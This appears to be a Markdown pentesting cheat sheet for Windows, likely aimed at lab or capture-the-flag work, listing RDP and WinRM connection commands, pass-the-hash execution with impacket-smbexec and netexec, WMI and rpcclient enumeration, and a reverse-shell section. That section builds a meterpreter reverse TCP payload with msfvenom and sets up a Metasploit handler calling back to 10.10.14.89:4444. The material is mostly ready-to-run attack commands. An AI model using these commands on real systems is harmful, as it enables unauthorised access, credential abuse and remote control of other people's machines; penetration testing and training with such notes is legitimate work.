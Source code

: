 # Windows

## Connection

 - RDP: `xfreerdp /v:<IP> /u:<USER> /p:<PASSWORD> /drive:linux,/tmp`
 - If user is member of Remote Management group: `evil-winrm `
 - With the hash NTLM hash from secretsdump ou mimikatz: `impacket-smbexec -hashes 'NT:LM' domain/user@ip` or `netexec smb -d domain -H nt:lm -u user -x cmd ip`

## Enumeration

 - `systeminfo`
 - Get OS version

```
PS> Get-WmiObject -Class win32_OperatingSystem | select Version,BuildNumber

Version    BuildNumber
-------    -----------
10.0.19041 19041
```

 - Get list of process: `Get-WmiObject -Class Win32_Process | select name`
 - Get BIOS version: `Win32_Bios`
 - Get OS Version (WMI): `wmic os list brief`
 - Get Computer Name: `wmic computersystem get name`
 - Get security protection settings: `Get-MpComputerStatus`
 - Get env variables: `set`
 - Get installed Windows patched:  `Get-Hotfix` or `wmic qfe`
 - Get installed programs: `Get-WmiObject -Class Win32_Product |  select Name, Version` or `wmic product get name`
 - User enumerations with rpcclient : 
   * [rpcclient](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration). 
   * [nulllinux](https://github.com/m8sec/nullinux)
   * [NetExec](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration)
   * impacket-lookupsid
 - `runas /savecred /user:ad\bob "command"`

## Create reverse shell

### With MSF

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.10.14.89 lport=4444 -f exe -o reverse.exe

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost 10.10.14.89
set lport 4444
run
```
